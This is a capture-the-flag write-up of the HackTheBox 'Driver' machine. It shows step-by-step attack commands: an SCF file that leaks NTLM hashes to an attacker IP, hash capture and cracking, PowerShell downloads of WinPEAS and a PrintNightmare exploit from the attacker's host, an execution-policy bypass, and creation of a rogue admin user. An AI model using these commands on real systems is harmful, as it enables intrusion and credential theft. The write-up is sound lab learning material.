 ```yaml
---
title: "HackTheBox - Driver"
date: 2023-05-29 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO DRIVER](../assets/img/Driver/Driver.png)


## Description
The box is available [here](https://app.hackthebox.com/machines/387) if you want to try it before read this.

 - OS : Linux
 - Release date : 02/10/2021
 - Difficulty : easy
 - Points : 20
 - IP Adress : ````10.10.11.106````

All is good, so here we go !

## Foothold
First, we scan the IP with the famous tool [**Nmap**](https://nmap.org), using the command :

```markdown
nmap 10.10.11.106 -sC -sV -p-
```

We obtain the following output :
```markdown
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-25 21:37 CET
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 33.90% done; ETC: 21:38 (0:00:06 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds

```

There are 4 open ports : 80 (**HTTP**), 135 (**MSRPC**), 445 (**SMB**) and 5985 (**Evil-WM**)...

So now, we are going to look the website. We have a Pop-up which contain a authentification. We can try to use admin/admin...

![alt text](../assets/img/Driver/web_lock.png)

And, sometimes, it works :)

![alt text](../assets/img/Driver/website.png)

When we explore the website, we find this page with an upload form. Here, we can make a link with the *upload* and *SMB*, and we can exploit a *SCF File Attacks*.

This [article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) is really useful to understand this attack. It is really simple to exploit :

 - Create a .scf file
 - Add this following lines :
 ```
[Shell]
Command=2
IconFile=\\{YOUR_IP}\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
   ```
 - Add '@' in front of the filename

We have the exploit file but we need to setup a listener with [**Responder**](https://github.com/SpiderLabs/Responder) (installed in Kali-Linux).

```markdown
sudo responder -wrf --lm -v -I tun0
```

Then, upload the file with the website and wait a little.

![alt text](../assets/img/Driver/hash_responder.png)

We receive a connection with a user and a hash.

```markdown
tony::DRIVER:2a7cdabfa3a86e6d:8145E5C2E03F2363A318FFE99BE766AC:0101000000000000216A32ACC32AD8014F1FE417A226E7A300000000020000000000000000000000
```

We create a file which contains the hash and we use [**John**](https://www.openwall.com/john/) to crack the password.

```markdown
john {HASH_FILE} --wordlist=path/to/rockyou.txt
```

We wait a moment, and **John** gives us the password : ````liltony````.

Now we can access to the machine with [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm). It a useful tool when you pentest Windows machines.


```markdown
evil-winrm -i 10.10.11.106 -u tony
```
Now, we are connected with user Tony. The user flag is located in ````C:\Users\Tony\Desktop\user.txt````.

## Privilege Esclation
The last part is to become the Administrator user. First, we can enum the box with [**WinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), the **Linpeas** for Windows.

To import this, use the following command: 

```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{YOUR_IP}:8080/winPEASany_ofs.exe','C:\Users\tony\Downloads\winpeas.exe')"
```

And execute it :
```markdown
.\winpeas.exe
```

Once **WinPEAS** finish, we can see that the *spoolsv* process is working. So, we can check if it is vulnerable with the ***NightMare*** exploit.

![alt text](../assets/img/Driver/spoolsv.png)

We search on github a exploit of CVE-2021-1675 and we find this [one](https://github.com/mtthwstffrd/calebstewart-CVE-2021-1675). We upload the .ps1 payload on the machine :
```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[YOUR_IP}:8080/CVE-2021-1675.ps1','C:\temp\bad.ps1')"
```

Then, we just have to execute the payload: 
```markdown
Import-Module .\bad.ps1
```

But we are restricted because we can't execute the payload. We try to bypass this by using ````powershell -ep bypass```` but **Evil-WinRM** doesn't like. We find a other command: 
```markdown
set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```

Now, it is perfectly working ! 

The exploit add a new user in the local admin group. So, we gonna create a new local user but with admin privileges.
```markdown
Import-Module .\bad.ps1
Invoke-Nightmare -DriverName "Xerox" -NewUser "{RANDOM_USERNAME}" -NewPassword "{RANDOM_PASSWORD}" 
```
![alt text](../assets/img/Driver/exploited.png)

Finally, open a new session with the new user and you will be in the Administrator group.

![alt text](../assets/img/Driver/net_user.png)

Go in ````C:\Users\Administrator\Desktop\````, and made a ````type root.txt````

![alt text](../assets/img/Driver/root.jpg)

And BOOM, we have the root flag !

*Note: To have a shell as NT/Authority System, just create a reverse shell in .dll and use ````Invoke-Nightmare -DLL "C:\path\to\your\reverse_shell.dll"````.*

## Conclusion
The box was really interesting and we learned new attacks about the .scf files. I recommend this box, 4 stars because it was, for me, a little guessing for the user flag.

Thanks for reading ! :)
